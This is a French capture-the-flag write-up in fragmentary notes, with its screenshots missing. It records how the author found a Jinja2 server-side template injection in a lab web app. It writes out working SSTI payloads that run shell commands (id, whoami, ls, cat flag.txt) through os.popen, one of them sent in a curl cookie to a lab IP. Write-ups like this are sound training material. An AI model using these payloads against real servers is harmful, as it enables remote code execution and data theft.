

ffuf du site : 

Check du site : 

Essayons avec **r0TckeJ**

On va check dans le Dev Tools **F12**, et en naviguant on trouve un **hidden** on l'enlève : 

un nouveau bouton apparait : 

Nouvel indice : 

donc > 

Essayons cela sur un champs modifiable par l'user : **le nom** !!

Il faut augmenter la taille du champ qui est vérouillé à 30! Mettons le à 50

Let's try it :: >>> RIEN...

aaah un easter egg : 

J'ai essayé avec Burp : 

Nothing...

On doit injecter dans la **Console**

Il faut ensuite tout tester... c'est assez dur :p 

aaaaaaaaah : 

donc on check le `routes.py`donné en code source ..

Je suis donc à **FlameDrake** 

Je peux peux être faire qqch dans **warriore_name**

On va tester avec un curl et capturer ensuite le tout avec Burp : 
curl -X GET "http://83.136.255.44:43661/flamedrake" --cookie "warrior_name={{config.__class__.__init__.__globals__['os'].popen('id').read()}}"

Noting... i'm missing something ..

Let's Read : [Comprendre la SSTI : Server-Side Template Injection](https://nahco3.fr/2021/11/ssti_1/)

Identification avec un 'template' de test : 

Donc si j'ai à peut prêt compris : 

Essayons avec un **whoami** : 
`{{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }}

`{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}

Let's get the flag : 

`{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

FLAG : 

Essayons avec un **curl** : `Copy as cURL`

curl 'http://83.136.248.131:33841/battle-report' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://83.136.248.131:33841' -H 'Connection: keep-alive' -H 'Referer: http://83.136.248.131:33841/flamedrake' -H 'Cookie: session=eyJ3YXJyaW9yX25hbWUiOiJydHRldGUifQ.Z96J7g.huR9C_pD9dnURt20SevKK5hAmSM' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'damage_dealt=83&damage_taken=135&spells_cast=2&turns_survived=4&outcome=defeat&battle_duration=97.016'

A VOIR AVEC YVAN
